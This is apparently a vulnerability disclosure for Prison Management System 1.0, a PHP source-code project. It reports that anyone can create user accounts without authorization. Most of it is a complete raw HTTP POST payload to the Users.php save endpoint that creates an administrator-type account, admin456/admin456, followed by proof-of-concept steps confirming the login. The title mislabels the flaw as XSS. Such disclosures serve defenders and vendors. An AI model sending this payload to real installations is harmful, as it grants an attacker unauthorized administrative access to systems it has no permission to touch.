


# Prison Management System  -create_new user Identification and Authentication Failures


#### Exploit Title: Prison Management System  - create_new user Identification and Authentication Failures(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15368&title=Prison+Management+System+in+PHP%2FOOP+Free+Source+Code
#### Version: Prison Management System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Confirmation of the user's identity, authentication, and session management is critical to protect against authentication-related attacks.
Can create a new user without authorization

#### Payload used:
```
POST /pms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------29640840124261413792559575304
Content-Length: 1033
Origin: http://localhost
Connection: close
Referer: http://localhost/pms/admin/?page=user/manage_user
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="id"


-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="firstname"

123
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="middlename"

123
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="lastname"

123
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="username"

admin456
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="password"

admin456
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="type"

1
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------29640840124261413792559575304--


```


#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.5/pms/admin/?page=user/list，See one more user added.

   

   

   

3. `admin456/admin456` can login system;

     


